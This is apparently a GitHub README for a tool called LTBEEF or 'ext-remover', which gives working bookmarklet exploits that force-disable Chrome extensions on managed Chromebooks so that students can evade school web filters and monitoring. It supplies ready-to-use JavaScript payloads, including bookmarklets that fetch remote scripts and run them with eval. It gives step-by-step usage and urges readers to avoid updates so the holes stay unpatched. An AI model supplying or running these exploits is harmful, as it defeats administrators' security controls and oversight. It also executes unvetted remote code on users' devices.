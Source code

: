 # Extension remover

## ATTENTION ALL SYS ADMINS!!! 

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

## Back to your scheduled programming

![image](https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png)

credit LittleMissNyan for the swag logo

This bookmarklet exploit that can force-disable any extension installed on Google Chrome. Also known as LTBEEF.

**DO NOT UPDATE YOUR CHROMEBOOK! This exploit gets patched relatively quickly, so do not update!** Need help to stop updates? [Click here to learn how!](https://caub.glitch.me/)

If you need any help, please go here: https://github.com/3kh0/ext-remover/discussions



## Using Point Blank, 106 and higher.
1. [found by bypassi](https://blog.bypassi.com/_/point-blank/) . Bookmark this code 
```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 125);
```
2. go to chrome://extensions, click on a extension that YOU installed from the Chrome Web Store, click details scroll down until you see View in chrome web store, AS SOON AS YOU CLICK ON IT SPAM ESC if it loads into chrome webstore try again, but if it is a blank screen press the bookmarklet and put the id of the extension in. Also, if you close the tab, it will stop working
## 106 And Higher Exploit

1.  Make a bookmarklet with this code ``` javascript:localStorage.cluster="UNKNOWN_SCHOOL,"+(confirm("ok = Disable\ncancel = Enable ")?99999999999999:0),opener.chrome.extension.getBackgroundPage().location.reload() ```
2. Go to tinyurl.com/goofcurly if you have securly, tinyurl.com/goofguardian if you have goguardian, tinurl.com/goofsi for blocksi, tinyurl.com/goofclassroom for securly classroom, and tinyurl.com/goofumbrella. 
3. Once your on the link depending on your blocker, click the button you see, it should open a about:blank tab, then click the bookmarklet and press ok, and all sites should be unblocked. Credit to the kajigs on the Titanium Network Discord.

## For v106 and up

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on 108.0.5359.75 (Official Build) (64-bit) on the stable channel.

This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

- Open this URL on your chromebook: `chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json` Shortened link: https://tinyurl.com/i-ltbeef
- Open inspect and navigate to the console tab.
- Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```

Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.

## For v106 and below

Here are the instructions to using this exploit! There are two ways, using the GUI and using the ids, the GUI method is better.

### Ingot (GUI)

Credit to Nebelung for this, [link to the github](https://github.com/FogNetwork/Ingot)

For easy setup go the the website at https://fognetwork.github.io/Ingot

1. Show your bookmarks bar with `ctrl + shift + b`
2. Right click on the bar and choose `Add Page`
3. Set the name to `Ingot` and the URL to the code below or [here](https://github.com/FogNetwork/Ingot/blob/main/bookmarklet.js)

```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)

### Using the GUI

Credit to CompactCow#4717 for the amazing UI!

1. Right click on the bar and choose `Add Page`
1. Set the name to `GUI` and the URL to the code below or [here](https://github.com/3kh0/ext-remover/blob/main/gui.js)
```js
javascript:fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

3. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
4. Click the bookmark (Make sure you are on the page above!)
5. Use the menu to toggle your extensions!

**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)

### Using IDs

#### Disabling 

1. Visit chrome://extensions and on the extension you want to disable click on Details
2. Copy the text in the URL after the `?id=`
> For example if you have this URL: `chrome://extensions/?id=echoontop` you would only copy `echoontop`
3.  Go to the file [`bookmark.js`](https://github.com/3kh0/ext-remover/blob/main/bookmark.js) and copy everything and create a new bookmark and use the code you copied as the Page URL
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. Click the bookmark (Make sure you are on the page above!)
6.  Put the ID you copied into the text box.

You're done! The extension should now be disabled.

**If this helped please give me a star!**

#### Enabling

1. Visit chrome://extensions and on the extension you want to enable click on Details
2. Click View in Chrome Web Store
3. You will see a banner at the top of the page that says This item has been disabled in Chrome. Enable this item
4. Click on Enable this item

You're done! The extension should now be enabled.

**If this helped please give me a star!**

Credit bypassi for finding and making this exploit!

## How does it work
Well, it's pretty basic. It finds extensions and displays them on this page with some toggle switches.

![image](https://yeeteeyt.github.io/exploitbranch.png)

then, it detects when the toggle switch is toggled, and for what extension, then compiles a message to chrome that says "hey, turn this off for me". Chrome, mistaking this for the webstore complies.

![image](https://yeeteeyt.github.io/exploitgrid.png)

<h1><b>NOTE:</b></h1> DO NOT DO THIS IF YOU DON'T KNOW WHAT YOU ARE DOING! I don't recommend anyone do this, but I can't really control your will. What I can do, though, is warn you. Doing ANY of this will violate your school's policy and will possibly get you banned from electronics. This sticks to your record, and you won't get rid of it. Think about it, are you REALLY that desperate?

### Full unenrollment

<img src="https://media.tenor.com/x8v1oNUOmg4AAAAd/rickroll-roll.gif" alt="Rickroll GIFs | Tenor"/>

There are still so many more fun exploits, please [join the TN](https://discord.gg/unblock) or [my discord](https://discord.gg/3kh0)
